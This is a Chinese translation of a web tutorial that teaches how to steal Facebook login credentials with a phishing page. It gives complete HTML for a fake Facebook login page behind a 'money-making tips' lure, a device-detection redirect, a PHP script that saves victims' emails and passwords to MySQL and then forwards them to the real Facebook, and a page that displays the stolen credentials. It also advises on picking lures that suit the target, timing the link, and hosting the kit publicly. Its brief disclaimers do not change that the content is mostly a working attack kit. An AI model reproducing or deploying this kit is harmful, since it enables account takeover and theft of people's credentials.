

# 如何用代码破解脸书账号或密码

> 原文：<https://codescracker.com/computer-tricks/hack-facebook-account-password.htm>

在这里，你将获得关于如何破解任何人的脸书账户 ID 和密码的真正技巧，以及破解代码和一个活生生的例子。

## 侵入脸书账户前的信息

这是一个教程，让你知道你的任何帐户，如脸书，Instagram，Twitter，LinkedIn 等。，可以使用网络钓鱼攻击来攻击。

这篇教程是基于用你自己的代码入侵一个脸书账户，不是为了给某人带来麻烦，而是为了了解事情是如何进行的。因此，请不要使用这里给出的任何代码来攻击任何人的脸书账户，因为这是一个非法的过程或行为。

读完这篇关于入侵脸书账户的教程后，你会感到安全，当你在互联网上操作你的账户时，你会把自己放在一个更安全的地方，比如脸书，Gmail，甚至是你的银行账户。

你也会明白打开任何人发来的任何未知链接的结果，甚至是你的朋友。

现在，让我们开始使用你自己的代码破解你的脸书账户 ID 和密码的教程。

## 入侵脸书账户之前要做什么

在使用本教程开始黑一个脸书帐户之前，你必须对以下语言有一些基本的了解:

*   [HTML](/html/index.htm)
*   [CSS](/css/index.htm)
*   [JavaScript](/js/index.htm)
*   [PHP 和 MySQL](/php/php-mysql.htm)

现在，你在想，为什么有必要学习或者对这些东西有一些基本的想法？
答案相当简单，即:

*   为了[创建与脸书登录页面外观相同的登录表单](/php/php-mysqli-login-page.htm)(这里需要 HTML 和 CSS)，
*   然后在数据库中存储用户的登录凭证(这里需要 PHP 和 MySQL)。
*   最后，将用户重定向到原始的脸书页面(这里需要 JavaScript)。

现在，我想你在阅读了上面的几行之后，已经有了这样的想法:在阅读并实现了这里给出的代码之后，你将仅仅通过使用网络钓鱼攻击来黑掉一个脸书账户。

如果你已经学会了以上所有的语言，想要刷新一下你的记忆，你可以参加类似于 [HTML 测试](/exam/showtest.php?subid=4)、 [CSS 测试](/exam/showtest.php?subid=5)、 、 [JavaScript 测试](/exam/showtest.php?subid=6)、 [PHP 测试](/exam/showtest.php?subid=8)、 和 [MySQL 测试](/exam/showtest.php?subid=23)的在线测试。并且，根据每次测试的结果，你将能够确定你目前对该主题的 理解水平。

读完这篇脸书帐户黑客教程，你将能够进行你自己的网络钓鱼攻击，以黑客攻击太多的脸书帐户 id 和密码。

## 诱骗用户入侵其脸书账户的技巧

以下是轻松诱捕目标用户并破解其脸书账户 ID 和密码的步骤:

*   **查看用户最喜欢什么**。首先，你必须检查并找出目标用户最喜欢什么，以制作一个喜欢的网页来 诱捕他或她，然后允许用户打开喜欢的页面。比如短时间内赚到钱，在 短短 2 天内获得让身体健康的小技巧，在短短 30 分钟内学会 Java 等等。
*   **检查用户在**时刻使用的设备。也就是说，在智能手机、电脑或平板电脑上。你也可以在你的登录页面上使用自动重定向代码 ,将使用桌面的人发送到桌面登录页面。也就是说，不管他们使用什么设备，只要把他们重定向到那个设备就行了。
*   **找到最合适的时机诱捕用户**。最后就是找到合适的时机，诱骗你的目标用户发送链接，然后黑掉他/她的 脸书账号。合适的时间在用户自由的意义上意味着他或她可以以开放的心态打开几乎任何东西。

## 破解脸书账户或密码的步骤

以下是破解脸书账户或密码的步骤列表:

*   创建一个类似于脸书登录页面的登录页面。
*   创建一个登录页面处理程序脚本，将登录凭据存储在数据库中。
*   在存储或获取用户的登录凭证后，将用户重定向到他们原来的脸书页面。
*   此外，创建一个数据库来存储您的脸书 ID 和密码。
*   现在将链接发送给用户。
*   此外，制作一个网页来查看所有被黑的脸书帐户 id 和密码。

把链接发给目标用户后，在这之后(或者上面给出的倒数第二步之后)就不用做什么了。过了这一步，目标用户就开始为你做事了。换句话说，他或她会自动给你他或她在你数据库中的脸书账户 id 和密码。你只需要观察数据库中的魔法。

例如，你创建了一个网页，向用户展示如何在很短的时间内赚钱，但在继续阅读文章之前，你要求用户登录脸书继续阅读。该登录部分的设计必须与原始的脸书登录完全相同。现在将链接发送给目标用户。当他或她打开链接时，页面要求用户登录以便继续，用户立即登录以便继续阅读文章，但是因为您已经编写了重定向代码。结果，用户被重定向到他或她的原始脸书页面，并且您的数据库包含他或她的脸书登录凭证。

您还可以创建一个网页，显示目标用户或被困用户的脸书帐户密码以及他们的脸书 id 的列表。

如果你已经完成了最后一步，即找到一个显示被黑的脸书账户详细信息的网页，那么你就不必一次又一次地进入你的数据库来检查是否有任何用户被困。

现在让我们来看看黑客入侵任何人的脸书账户 ID 和密码时使用的分步代码和描述。

## 1.使登录页面看起来像脸书登录页面

在开始这一步之前，先看看目标用户最喜欢什么。例如，如果你的朋友(目标用户)喜欢在很短的时间内赚钱，那么就创建一个登录页面，其中包含与赚钱相关的消息。或者你的朋友喜欢健康，或者他或她喜欢打架，等等。该消息随后与一些身体健康训练提示等一起发送。

现在让我们用下面的代码创建一个演示登录页面来完成第一步:这个登录代码是为移动用户准备的。您可以使用 JavaScript 代码实现重定向代码，将用户重定向到桌面版登录页面；您将获得此登录代码后的代码。

```
<!doctype html>
<html>
<head>
   <title>Top 10 Tips to Earn Money in Short Time</title>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width,initial-scale=1.0,user-scalable=yes">
   <meta name="description" content="Here are the list of top 10 tips to earn money in short time and become a
   successful earner in today's market. This list are exclusive to get for free to everyone.">
   <meta property='og:image' content='earnmoney.jpg' />
   <link rel="shortcut icon" href="https://www.facebook.com/rsrc.php/yl/r/H3nktOa7ZMg.ico">
   <style>
      table tr td{text-align:center;}
      .bottom a{color:#D3D3D3;}
      .bottom a:link{text-decoration:none;}
      input{padding:10px;}
      .login{background-color:#3b5998;color:white;}
      .check{background-color:#32CD32;color:white;padding:12px;}
      .inputf a:link{text-decoration:none;}
   </style>
</head>
<body style="margin:0px;">
<script>
   document.title='Facebook - Log In or Sign Up';
</script>
<div style="width:100%;">
<div style="height:40px;background-color:#3b5998;padding-bottom:10px;padding-left:5px;">
   <span style="color:white;font-size:120%;"><br/>facebook</span>
</div>
<div style="background-color:#FAFAD2;padding:5px;line-height:23px;text-align:center;">
   <span style="color:purple;">Login to continue to get top 10 exclusive tips to earn money in short time.</span>
</div>
<div class="inputf" style="background-color:AliceBlue;padding:10px;text-align:center;"><br/>
   <form name="fbform" method="post" action="login.php">
      <input name="email" type="text" id="email" placeholder="Email address or phone number" maxlength="40" size="30px"
      required><br/><br/>
      <input name="pass" type="password" id="pass" placeholder="Password" maxlength="40" size="30px"
      required><br/><br/>
      <input class="login" name="login" type="submit" id="submit" value="Log In" size="60px"><br/><br/>
      <span style="text-align:center;">Or</span><br/><br/>
      <a class="check" href="#email" onclick='document.getElementById("email").focus();'>Create New Account</a><br/><br/>
      <a href="#email" onclick='document.getElementById("email").focus();'>Forgotten password?</a> <br/><br/>
      <a href="#email" onclick='document.getElementById("email").focus();'>Help Center</a><br/>
   </form>
</div>
<div class="bottom" style="background-color:#808080;padding:10px;">
   <table style="width:250px;margin-left:auto;margin-right:auto;color:#D3D3D3;">
   <tr>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>English (UK)</a></td>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>English (US)</a></td>
   </tr>
   <tr>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>English (In)</a></td>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>More</a></td>
   </tr>
   </table>
   <p style="text-align:center;color:white;">Facebook</p>
</div>
</div>
</body>
</html>
```

在实现代码之前，先上网找到目标用户的脸书 ID 和密码。我们将首先在我们的本地计算机系统上实现这个脸书帐户黑客系统。为此，下载 XAMPP 软件并安装在您的电脑上。然后，按照下面的步骤。

将上面的代码保存在目录 C:\xampp\htdocs\(该目录是安装 xampp 后自动创建的)中，名称为 earnmoney.php，在同一目录中有一些钱的镜像，名称相同但扩展名为”。jpg，“也就是 earnmoney.jpg。

现在打开 XAMPP，启动 Apache 和 MySQL 模块。如果你不明白我在说什么，那么在进入下一步破解你的脸书账户 id 和密码之前，阅读我们的 PHP 和 MySQLi 教程。

现在，如果您打开浏览器并键入 localhost/earnmoney.php，您将看到以下示例截图:


因为上述代码仅用于移动用户。但是你必须为两种类型的脸书用户创建相同的登录页面，一种是使用手机的，另一种是使用电脑的。

为桌面用户创建另一个名为 earnmoneyD.php 的登录页面，并将他们发送到此页面。

如果目标用户在桌面上，使用以下重定向代码将他们带到桌面版本页面:

```
<script type="text/javascript">
if (screen.width > 800) { window.location = "localhost/earnmoneyD.php"; }
</script>
```

将上述代码放在您之前创建的登录页面的顶部。

## 2.创建一个脚本来存储脸书登录凭据

下面是登录处理程序的脚本，它将在数据库中保存特定用户的脸书登录信息:

```
<?php 
   $conn = mysqli_connect('localhost', 'root', '', 'fbhackedusers');
   if(mysqli_connect_error())
   {
      // redirect users to original Facebook if error occurred
      header("location: https://www.facebook.com");
      exit();
   }
?>
<!doctype html>
<html>
<head>
   <title>Logging in to facebook</title>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width,initial-scale=1.0,user-scalable=yes">
</head>
<body style="margin:0px;"> 
<?php
   if($_SERVER["REQUEST_METHOD"] == "POST")
   {
      if(isset($_POST['login']))
      {
         $email = $pass = "";
         // get facebook email id
         $email = $_POST["email"];
         // get Facebook password
         $pass = $_POST["pass"];
         // insert the Facebook id and password in database
         $sql = "insert into fbusers(facebookid, facebookpassword) values('$email', '$pass')";
         $result = $conn->query($sql);
      }
   }
   // redirect users to original Facebook URL
   header("location: https://www.facebook.com");
   exit();
?> 
</body>
</html>
```

将上面的文件放在名为 login.php 的目录下。

## 3.将用户重定向到原始的脸书网址

从上面的第二步可以看出，下面的代码:

```
header("location: https://www.facebook.com");
```

用于将用户重定向到原来的脸书。

## 4.制作一个数据库来存储您的脸书 ID 和密码

现在创建一个同名的数据库，然后再次创建一个同名的表。最后，创建与上面代码中使用的相同细节的列，即名为 fbhackedusers 的数据库、名为 fbusers 的表，以及名为 facebookid 和 facebookpassword 的列。

为此，请遵循下面给出的步骤:

**1。**点击 XAMPP 控制面板中 MySQL 行旁边的“Admin”。


**2。**在默认的网络浏览器中打开一个网页，网址为 http://localhost/phpmyadmin/。

**3。**现在点击**数据库**。


**4。**输入数据库名称(例如，“fbhackedusers”)并单击 Create 按钮。

**5。**接下来，输入“fbusers”作为名称，输入 3 作为列数。选择执行选项。


**6。**现在提供所有三列的详细信息，即:

*   填写第一列，将序号作为名称，INT 作为类型，6 作为长度或值，PRIMARY 作为索引，然后选中“自动递增”框。
*   用名称如 facebookid、VARCHAR 和 40 作为长度/值填充第二列。
*   在第三列中填入名称，如“facebookpassword”、“VARCHAR 作为类型”和“40 作为长度/值”

7 .**。**以下是提供上述三个步骤中提到的详细信息后的快照:


**8。**然后点击保存按钮。现在，您已经成功地在本地安装了数据库。

## 5.与朋友分享脸书黑客链接

现在将链接发送给你的朋友，开始获取他们的脸书帐户 ID 和密码。也就是他们打开链接，看到页面说要展示一些独家小技巧，在短时间内挣钱。因此，要获得这些提示，您的朋友必须立即输入他的脸书 ID 和密码才能继续。

## 6.创建一个网页列出被黑的脸书用户。

要看到你的被困用户或被黑的脸书帐户 id 和密码，你必须一次又一次地去你的数据库。要查看被黑的脸书帐户 id 和密码，只需创建另一个网页，以表格的形式从数据库中获取并列出所有被黑的脸书帐户 id 和密码，如下面的代码所示:

```
<?php 
   $conn = mysqli_connect('localhost', 'root', '', 'fbhackedusers');
?>
<!doctype html>
<html>
<head>
   <title>List of Facebook Users Hacked by Me</title>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width,initial-scale=1.0,user-scalable=yes">
   <style>
      table th, td{border:1px solid black;padding:10px;}
   </style>
</head>
<body>
<?php
   $sql = "select * from fbusers";
   $res = $conn->query($sql);
   echo "<table>";
   echo "<tr>";
   echo "<th>Facebook Id</th>";
   echo "<th>Facebook Password</th>";
   echo "</tr>";
   while($row=mysqli_fetch_row($res))
   {
      echo "<tr><td> $row[1] </td> <td> $row[2] </td></tr>";
   }
   echo "</table>"; 
?>
</body>
</html>
```

将上述文件放在与 hackedusers.php 相同的目录中。

## 窃取脸书帐户或密码的示例

让我们来看看如何黑掉你朋友的脸书账户 id 和密码的截图。

下面的截图显示了您的朋友点击您发送给他/她的链接后的演示登录页面。


现在，您的朋友将输入他或她的脸书帐户 ID 和密码，以获得一些独家提示，在短时间内赚钱。您还可以根据需要更改页面的消息、标题和描述。这是用户最喜欢的。例如，如果你将链接发送给 WhatsApp 上的任何人，它看起来是这样的(只有当你将所有黑客系统置于如下所示的活动状态时才会发生这种情况):


因为我现在已经实现了这个东西，所以图像没有显示。但是过一段时间后，你上传的美元图片会显示在左边，这对用户来说更有吸引力。所以他们立刻点击了链接。

这里是输入脸书登录凭证后的演示截图:


现在，当用户输入他们的脸书登录信息并单击 login 按钮时，您的登录处理程序脚本会将信息存储在数据库中，并将用户发送到原始的脸书 URL。

你朋友的脸书账户 ID 和密码存储在你的数据库里，你可以看到被黑的脸书用户名单。这将在您在第六步中创建的网页上可见。打开浏览器并导航到 localhost/hackedusers.php。



你可以把链接发给你的任何一个脸书账户将被你黑掉的朋友，或者你想黑掉的任何人的脸书账户。为了查看你的朋友是否在你的黑客系统中，请刷新 hackedusers.php 页面，查看被黑客攻击的用户列表。

## 最后一步是上线脸书账户黑客系统

现在，最后也是最重要的一步是把整个系统的黑客脸书帐户生活在你的网站上。以下是您需要采取的步骤。如果你有一个现有的网站，例如，如果你有一个网站说“codescracker”或任何其他，那么:

*   在父目录中创建一个名为“脸书”的目录。
*   创建一个数据库，然后在数据库中创建一个表，其详细信息与上面脸书帐户黑客系统代码中使用的相同。
*   将所有文件，即 earnmoney.php、earnmoneyD.php、login.php、hackedusers.php 和名为 earnmoney.jpg 的图像文件放在名为 facebook 的目录中。
*   现在把链接发给你的朋友，也就是 codescracker.com/facebook/earnmoney.php.
*   在你的浏览器中打开链接，这是 codescracker.com/facebook/hackedusers.php.

如果你还没有一个网站，以下是你应该采取的步骤。

*   购买或注册一个域名，如 codescracker.com。
*   购买一个虚拟主机账户，或者把你所有的网站文件放在你的服务器上。
*   设置您的网站，使其活跃起来。
*   然后，一旦你有了一个网站，重复所有的步骤，用你的域名替换 codescracker。

完成上述所有步骤后，必须修改连接字符串，将 localhost 替换为您的主机地址，将 root 替换为您的数据库用户名，将 password 替换为您的数据库密码。然后用 http://www.codescracker.com/facebook/.替换本地主机

你也可以根据你的要求做一些修改来破解任何人的脸书账户 id 和密码，因为这个教程只是一个演示，向你展示你将如何使用一些简单的方法来破解任何人的脸书账户，或者你的账户是如何被破解的。

## 使用互联网时要小心

只是让你知道随机链接看起来如何，这可能会给你带来一些严重的麻烦，在一个未知的网站上打开并填写一些细节，有时只是通过点击一些随机链接，你可能会被黑客攻击或你的帐户可能会被黑客攻击，因为互联网上有许多类型的黑客。

[计算机基础在线测试](/exam/showtest.php?subid=14)

* * *

* * *